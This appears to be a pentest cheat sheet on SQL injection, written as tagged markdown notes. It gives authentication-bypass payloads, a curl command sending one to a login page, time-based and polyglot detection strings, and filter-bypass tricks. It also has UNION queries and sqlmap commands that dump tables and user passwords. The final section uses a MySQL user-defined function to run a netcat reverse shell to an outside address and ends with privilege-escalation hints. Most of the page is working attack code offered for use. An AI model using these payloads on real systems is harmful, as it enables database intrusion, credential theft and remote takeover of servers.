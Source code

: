 

<!--- category: sqli --->
<!--- id: intro --->
<!--- title: SQLi --->
<!--- keywords:  --->
## SQLi




<!--- category: sqli --->
<!--- id: principe --->
<!--- title: Principle --->
<!--- keywords:  --->
## Principle

Inject SQL commands in the parameters to rewrite the SQL query.
```
SELECT * FROM user WHERE login='[USER]' and password='[PASSWORD]';
```

Method : close the single quote ', whiden the SELECT with OR 1=1, add entries thanks to  UNION, comment the end of the request with # or -- -
```
Sent parameters:
USER=admin' OR 1=1 -- -
PASSWORD=ferrari

Altered SQL request:
SELECT * FROM user WHERE login='admin' OR 1=1 -- - and password='ferrari';
```

Send the Form with custom params thanks to curl:
```
curl http://target/login.pgp?login=admin' OR 1=1 -- -&password=ferrari
```




<!--- category: sqli --->
<!--- id: sqli-fun --->
<!--- title: Exploits of a mom --->
<!--- keywords:  --->
## Exploits of a mom

<img src='https://imgs.xkcd.com/comics/exploits_of_a_mom.png'> 



<!--- category: sqli --->
<!--- id: sql-mysql --->
<!--- title: MySQL/MariaDB - Commands --->
<!--- keywords:  --->
## MySQL/MariaDB - Commands

Connect to a remote mysql database:
```
mysql -u admin --host=10.10.12.10 : without password
mysql -u admin --host=10.10.12.10 -padmin : with password
```

Usefull commands:
```
SELECT @@version;
SELECT user();
SHOW Databases;
USE database;
SHOW tables;
SELECT * from table;
```




<!--- category: sqli --->
<!--- id: detect --->
<!--- title: Detect SQLi --->
<!--- keywords:  --->
## Detect SQLi

Inject single quote ' or double quote " and see an error.<br/>
Inject Sleep and detect a delayed response.
```
admin' and sleep(5) and '1'='1
admin" and sleep(5) and "1"="1
```




<!--- category: sqli --->
<!--- id: detect --->
<!--- title: Detect SQLi : Polyglot --->
<!--- keywords:  --->
## Detect SQLi : Polyglot

A polyglot is a sequence working for many different scenarios
```
a/*$(sleep 5)`sleep 5``*/sleep(5)#'/*$(sleep 5)`sleep 5` #*/||sleep(5)||'"||sleep(5)||"`
```




<!--- category: sqli --->
<!--- id: limit --->
<!--- title: Select only one entry --->
<!--- keywords:  --->
## Select only one entry

Usually developers take the first entry. But sometimes they check that there is only one.
```
admin' or 1=1 LIMIT 1 -- -
```




<!--- category: sqli --->
<!--- id: simplefilter --->
<!--- title: Bypass simple filters --->
<!--- keywords:  --->
## Bypass simple filters

Sometime, SQLi aware developpers filter characters such as space or words such as OR:
```
Space => Tab %09, Newline %A0, /**/
AND   => && %26%26
OR    => ||
```




<!--- category: sqli --->
<!--- id: union --->
<!--- title: Inject values using UNION --->
<!--- keywords:  --->
## Inject values using UNION

When the query is used to display entries (e.g. list of objects), values can be added with a UNION.<br/>.
First, you need to identify the number of entries used by SELECT:<br/>
```
SELECT id, name, desc, price FROM stock WHERE name=[NAME]
```

Methode 1: ORDER BY
```
SELECT id, name, desc, price FROM stock WHERE name='mouse' order by 1-- - : Ok
SELECT id, name, desc, price FROM stock WHERE name='mouse' order by 2-- - : Ok
SELECT id, name, desc, price FROM stock WHERE name='mouse' order by 3-- - : Ok
SELECT id, name, desc, price FROM stock WHERE name='mouse' order by 4-- - : Ok
SELECT id, name, desc, price FROM stock WHERE name='mouse' order by 5-- - : Error
=> 4 entries
```

Methode 2: SELECT
```
SELECT id, name, desc, price FROM stock WHERE name='mouse' UNION SELECT 1 : Error
SELECT id, name, desc, price FROM stock WHERE name='mouse' UNION SELECT 1,2 : Error
SELECT id, name, desc, price FROM stock WHERE name='mouse' UNION SELECT 1,2,3 : Error
SELECT id, name, desc, price FROM stock WHERE name='mouse' UNION SELECT 1,2,3,4 : Ok
=> 4 entries
```




<!--- category: sqli --->
<!--- id: uniontablenames --->
<!--- title: UNION: Table names --->
<!--- keywords:  --->
## UNION: Table names

```
SELECT id, name, desc, price FROM stock WHERE name='mouse' UNION SELECT 1,2,table_name,table_name FROM information_schema.tables; -- -  
```




<!--- category: sqli --->
<!--- id: uniontablecolumnnames --->
<!--- title: UNION: Table columns names --->
<!--- keywords:  --->
## UNION: Table columns names

```
SELECT id, name, desc, price FROM stock WHERE name='mouse' UNION SELECT 1,2,column_name,column_name FROM information_schema.columns WHERE  table_name='users'; -- -
```




<!--- category: sqli --->
<!--- id: uniontablecolumnnames --->
<!--- title: UNION: Dump table --->
<!--- keywords:  --->
## UNION: Dump table

```
UNION SELECT concat(name,':',pass),1 FROM users; -- -
```




<!--- category: sqli --->
<!--- id: sqlmap --->
<!--- title: SqlMap --->
<!--- keywords:  --->
## SqlMap

SQLi on GET parameter:
```
$ sqlmap -u 'http://10.10.10.129/sqli/example1.php?name=root' --dbs --banner
```

SQLi on POST parameter:<br/>
Intercept the request using Burp, and save it in login.txt file.
```
$ sqlmap -r login.txt --dbs --banner
  -p name : parameter to be tested
```
 
List tables, then dumper une table:
```
$ sqlmap -r login.txt -D jetadmin --tables
$ sqlmap -r login.txt -D jetadmin -T users --dump
```




<!--- category: sqli --->
<!--- id: mysqludf --->
<!--- title: MySQL: UDF User Defined Function --->
<!--- keywords:  --->
## MySQL: UDF User Defined Function

Compile a unix library containing the function sys_exec()<br/>
Uploader the .so file onto the server. Declare the function in MySQL. Now it's possible to use sys_exec() to run shell commands.
```
# Tested with : mysql 5.5.60-0+deb8u1
# Create a 'User Defined Function' calling C function 'system'
# Use pre-compiled 32 or 64 depending on target.
# Copy file to /tmp
create database exploittest;
use exploittest;
create table bob(line blob);
insert into bob values(load_file('/tmp/lib_mysqludf_sys.so'));
select * from bob into dumpfile '/usr/lib/mysql/plugin/lib_mysqludf_sys.so
create function sys_exec returns int soname 'lib_mysqludf_sys.so';
select sys_exec('nc 11.0.0.21 4444 -e /bin/bash');

select sys_exec('/bin/sh');
after bash access, 'bash –p' or 'sudo su'
```


